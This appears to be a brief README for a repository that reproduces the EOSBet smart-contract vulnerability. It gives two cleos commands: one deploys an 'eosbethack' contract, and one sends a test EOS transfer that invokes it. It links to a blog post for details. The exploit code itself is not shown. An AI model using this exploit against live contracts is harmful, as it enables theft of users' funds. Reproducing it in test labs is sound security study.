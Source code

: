 # Introduction(简介)
eosbet合约漏洞实践

# Operation(操作)
```
cleos set contract contractaccount eosbethack
//下面的EOS转账会调用contractaccount这个智能合约的transfer方法
cleos push action eosio.token transfer '["testaccount", "contractaccount", "3.0000 EOS", "50-invitor"]' -p testaccount
```
# details(详情)
<a href="https://blog.csdn.net/ITleaks/article/details/83069431">
https://blog.csdn.net/ITleaks/article/details/83069431
</a>